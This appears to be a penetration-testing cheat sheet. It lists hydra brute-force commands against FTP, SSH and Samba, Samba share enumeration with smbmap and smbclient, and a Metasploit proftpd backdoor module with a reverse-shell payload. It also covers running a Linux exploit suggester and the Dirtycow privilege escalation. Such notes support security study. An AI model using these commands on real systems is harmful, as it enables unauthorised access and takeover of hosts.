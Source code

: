**Steps**:
- `hydra -L <User_list> -P <Pass_list> <target> -t 4 ftp`
  - `-t 4` to reduct speed
- Login with `ftp <target>`
  - `dir` to list file and dir
  - `get <file>` to download file

**Other exploit:**
- Use module exploit `proftpd_133c_backdoor`
  - `set payload payload/cmd/unix/reverse`, also set `lhost` and `rhosts`

### SSH

We can use hydra to exploit ssh
- `hydra -L <User_list> -P <Pass_list> <target> -t 4 ssh`

### SAMBA

A linux implementation of SMB, allow Windows system access linux file system.
- We can brute force Samba
- After have credential, we can use SMBMap to enum shares drives
- After that we can use `smbclient` to connect to share drives

**Steps:**
- `hydra -l admin -p <Pass_list> <target> smb`
- `smbmap -u <user> -p <pass> -d <Workgroup> -H <Host_ip>`
  - Shares drive show in `Disk` folder
- `smbclient -L <ip> -U <user>` List share
  - `smbclient //<ip>/<share_drive> -U admin`
  - Use `?` for help

Other tools
- `enum4linux -a <target>` list shares and check anonymous
  - Have other enum options, but need to provide user and password

## Linux kernel

Kernel in linux is different between distro and version

Tools: [Linux exploit suggester](https://github.com/The-Z-Labs/linux-exploit-suggester)

Scenerio: 
- Have meterpreter session -> `sysinfo` Show some info oe `getuid`
- The user we get usually don't have much of privilege
- Download the `les.sh`, upload to the target, and run it

### Dirtycow

[EDB Dirtycow](https://www.exploit-db.com/exploits/40839)

- Download the code 
- Upload to target
- Complie it and chmod +x
- Run it -> Login with new user
